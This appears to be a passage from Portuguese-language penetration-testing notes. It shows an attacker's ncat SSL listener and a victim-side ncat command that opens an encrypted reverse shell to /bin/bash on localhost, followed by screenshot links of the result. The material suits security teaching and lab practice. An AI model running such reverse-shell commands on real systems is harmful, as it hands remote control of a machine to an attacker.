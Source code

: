 Atacante:
```sh
ncat --ssl -nlvp 1337
```

Vítima:
```sh
ncat --ssl 127.0.0.1 1337 -e /bin/bash
```

Abaixo, o resultado do teste:

![ea92062d958acf2753186db20f14bd59.png](../img/pentest-0x00/1d441cb976c544b8b0d6bce013a2d919.png)

![9a58c02d08c9fba2ff372524d54a1739.png](../img/pentest-0x00/41767c0223034340b16c905a1063ed76.png)